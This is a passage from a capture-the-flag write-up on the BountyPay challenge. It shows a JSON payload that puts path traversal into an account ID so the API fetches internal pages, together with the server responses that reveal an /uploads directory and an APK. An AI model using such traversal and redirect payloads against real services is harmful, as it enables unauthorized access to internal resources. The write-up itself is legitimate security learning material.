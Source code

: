 ```

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/#\/statements?month=01&year=2020","data":"<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```
That page was a login area for something related to "Software Storage"...unfortunately, I couldn't figure out how to actually log in as it required a POST request that I was not able to send.
After spending way too much time on this, I decided to let it go and started looking at something else.

The right guess
=====================
I wanted to check if on `software.bountypay.h1ctf.com` there were more things other than its main page.
I was ready to start fuzzing with ffuf again for new paths, but before doing that I tried to visit `/uploads` manually and surprisingly enough that existed!
I encoded this json string:
```json
{"account_id":"../../redirect?url=https:\/\/software.bountypay.h1ctf.com/uploads#","hash":"de235bffd23df6995ad4e0930baac1a2"}
```
and I sent it to the server with the usual method to bypass the 401 error.
This was the server response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 01 Jun 2020 20:44:54 GMT
Content-Type: application/json
Connection: close
Content-Length: 489

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/uploads#\/statements?month=01&year=2020","data":"<html>\n<head><title>Index of \/uploads\/<\/title><\/head>\n<body bgcolor=\"white\">\n<h1>Index of \/uploads\/<\/h1><hr><pre><a href=\"..\/\">..\/<\/a>\n<a href=\"\/uploads\/BountyPay.apk\">BountyPay.apk<\/a>                                        20-Apr-2020 11:26              4043701\n<\/pre><hr><\/body>\n<\/html>\n"}
```
By reading that HTML source, which was listing the files in the /uploads directory, I got to know that there was a BountyPay.apk on the server!
This time I was able to download it directly as it was not giving me a 401: `https://software.bountypay.h1ctf.com/uploads/BountyPay.apk`
